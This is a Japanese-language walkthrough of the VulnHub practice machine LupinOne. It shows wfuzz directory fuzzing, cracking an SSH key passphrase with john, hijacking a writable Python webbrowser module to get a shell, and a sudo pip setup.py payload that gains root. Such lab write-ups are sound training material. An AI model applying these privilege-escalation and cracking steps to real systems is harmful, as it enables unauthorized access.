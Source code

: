 ## LupinOne

### ポートスキャンまで同じ
- 22,80

### robots.txtを見る
- `curl http://$IP/robots.txt` 
- ヒントは`/~myfiles`で、ディレクトリの初めに~がついていることがわかる
- ~myfilesを見ても`404 error`になる  

### 隠しディレクトリを探す
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  "http://$IP/~FUZZ/"`
  - `-c`でカラー表示
  - `-z file,`は辞書の指定だが、わかりにくいので`-w`でいい
  - 初めは`--h?`をつけずに実行して関係なさそうなのを探す。ここでは404のステータスコードを返しているので`--hc 404`をつける
- これでもいける
  - `wfuzz -c -w /usr/share/wordlists/rockyou.txt -u http://$IP/~FUZZ/ --hc 404`
- 見つかったファイルは`secret` `myfiles`、時間が長いので2つ見つけたら止める
- `wfuzz -c -z file,/home/user/vulnhub/SecLists-master/Discovery/Web-Content/raft-large-directories.txt  --hc 404 "http://$IP/~FUZZ/"`
  - helpを見て`--h?`を他に行や単語数、文字数でもやってみる 

### サイトを見る
- 見つけたリンクでサイトを翻訳して確認する。分かったことがある
  - このディレクトリに秘密鍵があること
  - 秘密鍵はfasttrackで解析する
  - ユーザ名はicex64であること
 
### fasttrackとは
- 移動してみる/usr/share/wordlists/fasttrackにある辞書
- `less fasttrack.txt`中身を見るとパスワードファイルらしい
- `wc fasttrack.txt`数が少ない


### さらに隠しファイルを探すが、その前に辞書を整理する
- wfuzzの特性上`#`も200(成功)に反応するので、`#`を辞書から削除する
  - `#`はフラグメント識別子と言って、サイト内の特定の場所に移動できる  
- `grep -v '^\s*#' /usr/share/wordlists/rockyou.txt > ./custom_rockyou.txt`
  - `-v`は`'^\s*#'`以外の正規表現を抜き出す
  -  `^#`は単語の最初が#であるのを抽出
  - `\s`はスペースのことで`\s*`はスペースが０以上あるものを抽出 

### 隠しファイルを探す
- 本来は辞書のファイルを使うが、ここで欲しいのは秘密鍵のファイルで拡張子が`.txt`なので、上で作った、パスワードファイルのrockyou.txtを使う
- また隠れファイルなので頭に`.`をつける。正直、これだけのヒントでFUZZの頭にドットをつけるのに気づくのは難しいと思う
- `wfuzz -c -z file,./custom_rockyou.txt --hc 400,404 "http://$IP/~secret/.FUZZ.txt"`
  - `--hc`statusの400,404は表示させない 

### textのダウンロード
- `curl http://$IP/~secret/.mysecret.txt > .mysecret2.txt`
- または
- `curl -OL http://$IP/~secret/.mysecret.txt`
  - `-L`リダイレクト,`-O`標準出力せずにダウンロードする 
- コピーする

### ファイルを分析
- ファイルを見た感じでは秘密鍵でなく、何かしらの暗号化されているのはわかるので調べる
- `cat .mysecret2.txt | grep -o . | sort | uniq | wc`
- 58なのでBase58

### CyberChefでdecode
- CyberChefでInputでコピーをペーストする
- 一番左のsearchに`from base`と入力する。
- 青色の背景になるのでFrom base32~From base92まで順に上からドロップ&ドラッグでRecipeに置いておくとOutputに文字化けしないのを試していく。文字化けしたらゴミ箱があるのでゴミ箱を押して消して次のOperationに進んでいく
- Base58でデコード(復号)する。そして、コピーする
- `cat > key`で貼り付ける。注意するのは、ペーストしたら改行してから、`ctrl + c`で抜ける
### 秘密鍵のPermissionを変更する
- `chmod 700 key`
- `chmod 777 key`にするとsshが繋がらない。これは秘密鍵は本来、所有者しか使うことができなので当然なので、それに合わせている

### パスフレーズの解析
- (1) コマンドを使う。とても簡単これだけでもいい
  - `ssh2john key > pass.txt` 
- 暗号解析
  - `sudo john pass.txt -wordlist=/usr/share/wordlists/fasttrack.txt`
  - パスフレーズが取得できる
  - `P@55w0rd!` 

### sshでアクセス
- `ssh -i key icex64@$IP`
  - パスフレーズの入力 

### システム内の調査
- `sudo -l`
  - `(arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py`
- icex64はパスワードなしでarseneとして/home/arsene/heist.pyファイルが実行できることがわかる。つまり実行することで、arseneになることができる
- heist.pyの中身を見る、これが何をしているか？
- Permissionから何がわかる？
- 本来なら、このpyファイルに書き込みたいが、できないのでwebbrowser関数の中に書き込む

### 攻撃アプローチ
- webbrowserがどこにあるか調べる
  - `locate webbrowser`
  - または
  - `find / -name '*webbrowser*' -type f -writable 2>/dev/null`
- webbrowserファイルを開く
  -  `nano /usr/lib/python3.9/webbrowser.py`
  -  import osの下に`os.system("/bin/bash")`を書き込む


### 別ユーザで権限取得
- `sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py`
  - `-u`sudoをユーザを指定して実行する 
- arseneが使えるルートコマンドを調べる
  - `sudo -l` 
- pipコマンドが使える。GTFOBinsのSudoの部分を参考にする。pipはPythonのモジュールをインストールできるコマンド。なので、架空のモジュールを作ってpipを利用する
- 一時的なディレクトリを作って、そこにルートコマンドになれるpythonのセットファイルを作る。変数の設定時にはスペースを空けてはダメ
  - `cd /tmp`
  - `TF=$(mktemp -d)`
  - `echo $TF`
  - `echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh < $(tty) > $(tty) 2> $(tty)')" > $TF/setup.py`
    - os.execl('/bin ~ $(tty)') これをシングルクォーテーションひとつで書くとエラーになる。なぜかはわからん 
  - `ls $TF`
  - `sudo pip install $TF`

### ルートフラグの取得
- ルートシェルを奪取できた
- `cd /root`
- `cat root.txt`




